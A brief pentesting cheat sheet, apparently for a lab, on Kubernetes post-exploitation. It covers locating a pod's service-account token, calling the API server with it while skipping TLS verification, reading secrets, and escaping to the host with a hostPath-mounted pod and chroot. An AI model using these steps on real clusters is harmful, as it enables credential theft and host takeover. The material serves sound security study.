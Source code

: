 Steps to get kubectl:

```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
sudo install -o root -g root -m 0755 kubectl /usr/local/bin/kubectl
```

If you get RCE in a pod, try to find the secret token from these locations:

```
/run/secrets/kubernetes.io/serviceaccount
/var/run/secrets/kubernetes.io/serviceaccount
/secrets/kubernetes.io/serviceaccount
```

Once you have it, run kubectl like:

```
kubectl --token=$(cat token) --server=https://10.10.175.123:6443 --insecure-skip-tls-verify=true [commands]
```

note the port of **6443**. has also been found as **16433**

for commands, finding out what your privs are would be `auth can-i --list`. Others, like `get secrets -n [namespace]` etc.

Hints from (along with more) this page [https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes/kubernetes-enumeration](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-pentesting)

### Simple escape with full rights:

- `kubectl get pod <name> [-n <namespace>] -o yaml`
- mod with a new name, tag, and two volume changes:
    
    ```
      volumes:
      - name: host-fs
        hostPath:
          path: /
    ```
    
    and under a container
    
    ```
      volumeMounts:
      - name: host-fs
        mountPath: /root
    ```
- `kubectl apply -f attacker.yaml [-n <namespace>]`
- `kubectl exec -it attacker-pod [-n <namespace>] -- bash`
- `chroot /root /bin/bash`

